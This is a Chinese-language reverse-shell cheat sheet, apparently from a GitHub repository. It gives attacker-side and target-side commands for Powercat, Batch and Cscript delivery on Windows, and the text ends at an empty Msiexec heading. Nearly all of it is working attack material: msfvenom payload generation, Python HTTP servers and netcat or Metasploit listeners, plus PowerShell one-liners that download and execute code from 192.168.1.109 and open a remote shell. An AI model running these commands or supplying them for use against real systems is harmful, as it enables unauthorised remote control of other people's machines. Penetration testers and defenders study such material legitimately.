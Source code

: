 **Powercat.exe**

Powercat 是 PowerShell 的本机后门侦听器和 reverse shel，也称为 netcat 的修改版本，因为它集成了对生成的编码有效载荷的支持，msfvenom 可以做到这一点，并且还具有客户端到客户端的中继(Powercat 客户端的术语，允许连接两个单独的侦听器)。

攻击端
```bash
git clone https://github.com/besimorhino/powercat.git
cd powercat
python -m SimpleHTTPServer 80

nc -lvp 1234
```
目标端
```bash
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.109/powercat.ps1');powercat -c 192.168.1.109 -p 1234 -e cmd"
```

**Batch File**

攻击端
```bash
msfvenom -p cmd/windows/reverse_powershell lhost=192.168.1.109 lport=4444 > 1.bat

python -m SimpleHTTPServer 80

nc -lvp 4444
```

目标端
```bash
powershell -c "IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.1.109/1.bat'))
```

**Cscript**

攻击端
```bash
msfvenom -p cmd/windows/reverse_powershell lhost=192.168.1.109 lport=1234 -f vbs > 1.vbs

python -m SimpleHTTPServer 80

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.109
set lport 1234
exploit
```

目标端
```bash
powershell.exe -c "(New-Object System.NET.WebClient).DownloadFile('http://192.168.1.109/1.vbs',\"$env:temp\test.vbs\");Start-Process %windir%\system32\cscript.exe \"$env:temp\test.vbs\""
```

**Msiexec.exe**
